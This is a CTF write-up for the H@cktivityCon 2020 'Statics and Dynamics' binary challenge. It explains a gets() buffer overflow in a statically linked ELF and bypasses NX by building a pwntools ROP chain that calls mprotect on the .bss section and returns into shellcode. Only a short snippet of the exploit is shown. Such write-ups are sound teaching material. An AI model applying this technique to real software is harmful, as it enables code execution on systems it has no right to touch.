 # H@cktivityCon CTF 2020 `Statics and Dynamics` Writeup
Category Binary Exploitation  
Points: 100

## Description
```
Everybody likes the dynamic side of things, what about the static?
```
---

Where I bypass the intended solution and learn about defeating DEP/NX with `mprotect`

## Recon
We are given a single binary, `sad`:

```
> file sad
sad: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=603eb2dd7bf8d6f483505b9e686b9163e6f69d14, for GNU/Linux 3.2.0, not stripped

> checksec --file=sad
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   1901) Symbols     No    0               0               sad
```

Like the description hints at, this is a statically compiled binary. `checksec` finding stack canaries scared me a little, but I think it's just picking them up from the compiled in libc.

A quick look in ghidra reveals that while a whole lot is compiled in to this binary, it doesn't actually do much:

```c
undefined8 main(void)
{
  char buffer [256];
  
  setup();
  puts("This is a really big binary. Hope you have everything you need ;)");
  gets(buffer);
  return 0;
}
```

A fairly obvious buffer overflow. It would be a standard ret2libc, but of course everything's been compiled directly in, and all of the good stuff (`system`, `execve`, etc.) has been left out. One way of dealing with this (and I think the intended one) is to make the right syscall yourself (That's how the above functions work, they end up triggering a syscall and telling the kernel to do things). In order to make that work you need to be able to control a number of registers, but since a good portion of libc has been linked directly into the binary you have plenty of gadgets to work with.

However as I was trawling through ghidra's function list looking for `main`, I noticed that `mprotect` had also been included. The binary has been setup for NX, disallowing execution for data sections of memory, but `mprotect` lets a user permission sections of memory however they want. This can potentially be used to grant yourself a region of writeable and executable memory, allowing a more old school return into shellcode. I had never done this before, so I decided to give it a shot.

## `mprotect`

The setup here is pretty straightforward:

1. Return to `gets` (or `read`) to write some shellcode to an area of memory we know the address of (I used the `.bss` section)
2. Return into the mprotect function, causing it to mark that area of memory as executable
3. Finally return to the shellcode you just wrote.

`pwntools` makes this dead easy:

```python
e = ELF("./sad")
rop = ROP(e)

BSS = e.bss()

rop.gets(BSS) # Write shellcode to memory
rop.mprotect(BSS, 0x100, 0x1 | 0x2 | 0x4) # Make memory executable
rop.raw(BSS) # Jump to the shellcode

payload = rop.chain()
```

Trying to run this however will segfault. Inspecting in gdb reveals that we tried to jump to the correct address, but we segfaulted anyway. Looks like the mprotect call didn't work.

## Pages

A more careful reading of the `mprotect` man page reveals the issue. The address you pass to it must be page aligned. It turns out that these permissions are enforced on the page level, not on the byte level. `pwntools` probably has some utility to align address to a page (it has everything else), but I don't know what it is, so I just hardcoded the offset.

After that it worked like a charm.

## Flag

The full exploit script is available in `sad.py`.

```
> cat flag.txt
flag{radically_statically_roppingly_vulnerable}
```

_Fin._